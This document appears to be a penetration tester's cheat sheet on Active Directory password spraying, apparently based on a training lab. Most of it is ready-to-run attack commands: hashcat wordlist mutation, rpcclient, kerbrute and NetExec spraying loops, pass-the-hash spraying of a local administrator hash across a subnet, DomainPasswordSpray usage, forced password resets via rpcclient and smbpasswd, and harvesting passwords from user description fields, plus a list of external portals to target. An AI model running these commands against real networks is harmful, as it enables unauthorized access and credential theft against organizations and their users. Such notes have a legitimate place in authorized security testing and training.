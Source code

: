 ```yaml
---
tags:
  - Authenticated
  - Initial-Access
  - Lateral-Movement
  - Privilege-Escalation
  - Unauthenticated
  - AD
---
```

!!! alert "note"
	It is worth targeting high-value hosts such as `SQL` or `Microsoft Exchange` servers, as they are more likely to have a highly privileged user logged in or have their credentials persistent in memory.
## Wordlist Generation
---
**Add likely words to a file (domain name, seasons, employees, etc).**
Use hashcat with ruleset to generate the alterations
```C
hashcat --force words.txt -r /usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```
you should also prolly append an exclamation point to the words as well.
  
## Password Spraying
---
**From Linux**
---
```Python
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
```Python
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```
```Python
nxc smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
```Python
nxc smb 172.16.5.5 -u avazquez -p Password123
```
Spray local admin hash around domain
```Python
nxc smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

!!! alert "note" 
	The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. `Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain`


**From Windows**
[https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.
```Python
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
```Python
Invoke-DomainPasswordSpray -UserList users.txt -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
## External Password Spraying
---
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication
# Workarounds
---
“Password must be changed on next logon”
“Password_must_change”
You can try two things
```C
rpcclient -U <user> <IP>
rpcclient $> setuserinfo2 <user> 23 'Password123!'
```
```C
smbpasswd -U <user> -r <IP>
```
## Password in Description Field
---
Sensitive information such as account passwords are sometimes found in the user account Description or Notes fields and can be quickly enumerated using PowerView. For large domains, it is helpful to export this data to a CSV file to review offline.

**Remote**
```bash
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```
**Local**
```Bash
Import-Module powerview.ps1
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

